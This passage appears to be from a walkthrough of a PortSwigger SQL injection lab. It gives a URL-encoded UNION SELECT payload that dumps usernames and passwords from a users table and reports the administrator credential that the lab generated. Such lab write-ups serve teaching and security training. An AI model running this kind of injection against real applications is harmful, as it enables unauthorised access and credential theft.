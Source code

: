 ![column names](/docs/assets/images/portswigger/sqli/examinedb/examinedb27.png)

With this information I can query the usernames and passwords from the users table

`'+UNION+SELECT+USERNAME_CRGLBU,+PASSWORD_RALSWA+FROM+USERS_OERPCY--` 

Again this displays all of the usernames and passwords in the table but for the purposes of this challenge the one I'm interested in is `admnistrator:566ghyl96kel7ze0roy3`. 
